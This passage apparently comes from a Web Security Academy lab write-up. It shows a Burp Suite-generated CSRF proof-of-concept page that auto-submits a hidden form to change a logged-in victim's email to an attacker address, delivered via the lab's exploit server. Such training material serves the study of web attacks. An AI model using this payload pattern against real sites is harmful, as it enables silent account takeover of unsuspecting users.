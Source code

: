 - Using function auto generate CSRF POC of Burpsuite pro: 

![image-20250524093858189](./image/image-20250524093858189.png)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa9008403583938804017ea00ce00dd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="n33r9&#64;hacker4&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- Submit it to the exploit server: tab `body` ` and get the result of email change: 

![image-20250524094141022](./image/image-20250524094141022.png)
